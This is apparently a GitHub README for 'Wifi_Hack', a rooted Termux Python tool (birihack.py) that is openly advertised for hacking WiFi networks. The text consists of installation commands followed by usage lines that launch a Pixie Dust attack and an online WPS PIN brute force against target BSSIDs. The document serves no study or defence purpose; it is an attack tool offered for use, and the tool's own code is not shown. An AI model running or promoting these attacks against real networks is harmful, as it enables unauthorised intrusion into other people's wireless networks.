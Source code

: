 ## Wifi_Hack
## Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

## Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/abukayuum/wifi
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

## Help : `python3 birihack.py --help`
## Example : `sudo python3 birihack.py -i wlan0 -K`

## Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
